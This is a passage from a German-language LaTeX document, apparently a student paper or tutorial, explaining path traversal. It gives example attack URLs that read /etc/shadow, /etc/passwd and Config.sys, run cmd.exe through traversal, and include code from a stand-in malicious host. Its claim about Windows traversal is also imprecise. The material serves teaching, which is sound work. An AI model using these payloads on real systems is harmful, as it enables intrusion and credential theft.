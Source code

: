 \subsection{Grundprinzip}
\label{sec:PT_GP}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, dass einem diese Schwäche erlaubt lokale Passwörter und Windows Configs auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Verzeichnis bewegen, in dem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem man sich noch mehr Möglichkeiten verschafft. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\section{HTTP-Protokoll}
Da sich die fortführende Themen mit HTTP und HTTP Request Protokollen beschäftigen werden, werden in diesem Kapitel kurz das Hypertext Transfer Protocol (HTTP) erklärt. 
